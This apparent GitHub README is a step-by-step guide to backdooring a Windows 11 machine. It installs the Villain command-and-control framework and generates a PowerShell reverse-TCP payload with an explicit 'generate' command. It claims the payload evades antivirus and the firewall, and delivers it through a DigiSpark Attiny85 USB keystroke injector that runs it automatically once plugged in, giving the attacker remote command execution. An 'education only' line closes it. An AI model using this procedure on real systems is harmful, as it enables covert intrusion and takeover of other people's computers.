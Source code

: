 # Network-Security

# Requirements:
•	 Kali Linux (attacker’s machine) <br>
•	 Windows 11 (victim’s machine) <br>
•	 Villain Tool on Kali Linux <br>
•	 DigiSpark Attiny85 <br>
•	 Arduino IDE <br>

# Installing Villain Tool
Install the latest version of Villain manually:<br>
```
sudo git clone https://github.com/t3l3machus/Villain.git<br>
```
![1](https://github.com/mishqatabid/Network-Security/assets/145700715/09fc9dac-f0db-40b0-a0f4-40429e2849f9)<br>

Install the `requirements.txt` <br>
```
cd ./Villain
pip3 install -r requirements.txt
```
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/bf6b1320-018e-4696-9bfa-531802b8824a)<br>

You should also install `gnome-terminal` (required for one of the framework's commands):<br>
```
sudo apt update&&sudo apt install gnome-terminal
```

![3](https://github.com/mishqatabid/Network-Security/assets/145700715/193d2fe2-69b8-4d75-bb41-f9f8c4a05611)<br>

Now it is ready to use<br>

![4](https://github.com/mishqatabid/Network-Security/assets/145700715/58e48912-81fa-4e9f-9c00-8142a1c0b8ec)<br>

# Generate & Test Payload
## Generating Payload
As Villain tool is operating, we will use it to generate to generate the required payload for our backdoor. <br>
To generate the payload, write the keyword generate, specify the type of payload you want to generate, then specify the local host and click enter to get the desired payload<br>
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 
```
![5](https://github.com/mishqatabid/Network-Security/assets/145700715/9ce703b6-b38c-490d-95fb-2053b6abdf96)<br>

## Testing Payload
•	 The payload is generated and it’s time to test the payload. <br>
•	 For testing we are using Windows 11<br>
•	 Open the PowerShell, paste the payload on shell and click enter <br>
•	 You can witness that the payload is running successfully and have bypassed the Windows Antivurus and Firewall

![8](https://github.com/mishqatabid/Network-Security/assets/145700715/0cdfab1e-1864-4f2a-88b6-769287d7126c)<br>

# Deploying Payload
•	 To deploy the payload, we will download the [Arduino IDE](https://www.arduino.cc/en/software)<br>
•	 Open the IDE, create a new sketch file and write down the code for Digispark Attiny85.<br> 
•	 The [Sketch](https://github.com/mishqatabid/Network-Security/blob/main/sketch.ino) is then compiled and uploaded on Arduino present in Digispark Attiny85<br>

![9](https://github.com/mishqatabid/Network-Security/assets/145700715/72708055-3aa5-4420-997f-4c04f5cfc400)<br>

# Backdoor
•	 Now when the victim inject the Attiny85 in its machine. <br>
•	 After few seconds, search bar is opens and PowerShell is searched<br>
•	 It opens the PowerShell, then automatically pastes the payload and click enter to execute it.<br>
•	 Once the script is executed you can witness that a backdoor session has been established on the Villain terminal on attacker’s machine.<br>

![1](https://github.com/mishqatabid/Network-Security/assets/145700715/14a21b81-32fb-4aea-a391-cf8f05fcc434)<br>

•	 Now by typing sessions on the Villain terminal, you can see all the possible session that has been established using the payload.<br>
•	 It contains `Session ID`, `IP Address`, `OS Type`, `User`, `Owner` and `Status`.<br>
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/2e9c453d-733a-4f26-a2a0-6d2f5fb5daeb)<br>
![3](https://github.com/mishqatabid/Network-Security/assets/145700715/5573c2c2-8853-424c-8717-e8e0e623f528)<br>

Now the backdoor has been created, you can easily execute any command<br>

# Use this for Education Purpose ONLY
